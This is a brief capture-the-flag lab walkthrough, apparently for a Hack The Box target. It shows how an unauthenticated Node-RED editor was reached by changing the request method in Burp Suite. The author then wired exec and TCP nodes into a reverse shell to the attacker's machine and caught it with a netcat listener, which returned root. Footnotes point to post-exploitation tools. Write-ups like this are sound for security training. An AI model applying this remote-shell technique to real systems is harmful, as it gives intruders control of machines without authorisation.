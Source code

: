 	firefox 10.129.172.204:1880

```
Cannot GET /
```

	CTRL+U	// view source - nothing interesting
	
Information leak:

	http://10.129.172.204:1880/favicon.ico

Upload to Google Image Search:

```
https://nodered.org/docs/security	// learned how to enumerate from here
```

Intercept on Burp Suite:

Since it cannot do a get request, let's change it to a POST request:

Proxy => Right Click => Change Request Method

```
POST / HTTP/1.1
Host: 10.129.172.204:1880
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

Burp Suite => Forward

```
{"id":"bdeddbc78d93f8cfb254b0c4666751c1","ip":"::ffff:10.10.16.10","path":"/red/{id}"}
```

Firefox:

	http://10.129.172.204:1880/red/bdeddbc78d93f8cfb254b0c4666751c1	// disable Intercept
	
```
exec => (Command: whoami) => Deploy	// no output, REMOVE COMMAND
tcp input	=> Connect to Port 4444; at host <my_ip> => Done
tcp output	=> Reply to TCP => Done
connect std in/out/error to tcp output
```

Listen for connection:

	nc -lvnp 4444

```
[object Object]whoami
root
```


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html